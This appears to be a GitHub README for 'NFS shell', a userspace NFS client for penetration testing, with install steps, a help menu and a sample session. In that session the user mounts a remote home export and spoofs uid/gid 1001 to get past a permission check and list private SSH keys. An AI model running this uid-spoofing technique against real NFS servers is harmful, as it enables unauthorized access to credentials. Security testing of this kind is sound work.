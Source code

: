 # NFS shell 

Userspace NFS client shell
NFS shell that provides user level access to an NFS server, over UDP or TCP, supports source routing and "secure" (privileged port) mounts. It's a useful tool to manually check (or show) security problems after a security scanner has detected them.

Prerequisites
* Linux System

Dependencies

* libreadline-dev libncurses5-dev git

# Installation
```
- sudo su
- git clone http://github.com/callmezatiel/nfsshell
- cd nfsshell
- chmod +x nfs
- sudo ./nfs

```


# Help menu: 

```
nfs> help 

host <host> - set remote host name 
uid [<uid> [<secret-key>]] - set remote user id 
gid [<gid>] - set remote group id 
cd [<path>] - change remote working directory 
lcd [<path>] - change local working directory 
cat <filespec> - display remote file 
ls [-l] <filespec> - list remote directory 
get <filespec> - get remote files 
df - file system information 
rm <file> - delete remote file 
ln <file1> <file2> - link file 
mv <file1> <file2> - move file 
mkdir <dir> - make remote directory 
rmdir <dir> - remove remote directory 
chmod <mode> <file> - change mode 
chown <uid>[.<gid>] <file> -  change owner 
put <local-file> [<remote-file>] - put file 
mount [-upTU] [-P port] <path> - mount file system 
umount - umount remote file system 
umountall - umount all remote file systems 
export - show all exported file systems 
dump - show all remote mounted file systems 
status - general status report 
help - this help message 
quit - its all in the name 
bye - good bye 
handle [<handle>] - get/set directory file handle 
mknod <name> [b/c major minor] [p] - make device 
```


# Usage

```
root@kali:/opt/nfsshell# ./nfs
nfs> host 192.168.0.45 
Using a privileged port (1021) 
Open 192.168.0.45 (192.168.0.45) TCP 
nfs> export 
Export list for 192.168.0.45: 
/home/karl               *  
nfs> mount /home/zatiel 
Using a privileged port (1020) 
Mount `/home/karl', TCP, transfer size 65536 bytes. 
nfs> ls -l 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  . 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .. 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .bash_history 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .bash_logout 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .bashrc 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .lesshst 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .profile 
drwxr-xr-x  3     1001  1001      4096  Apr  5  2023  .ssh 
nfs> cd .ssh 
nfs> ls 
Readdir failed: Permission denied 
nfs> uid 1001 
nfs> gid 1001 
nfs> ls 
. 
.. 
authorized_keys 
id_rsa 
id_rsa.pub 
user.txt 
nfs>  
```

## Preview
[![NFSShell.png](https://i.postimg.cc/nL5xRLRN/NFSShell.png)](https://postimg.cc/67dFTBNh)
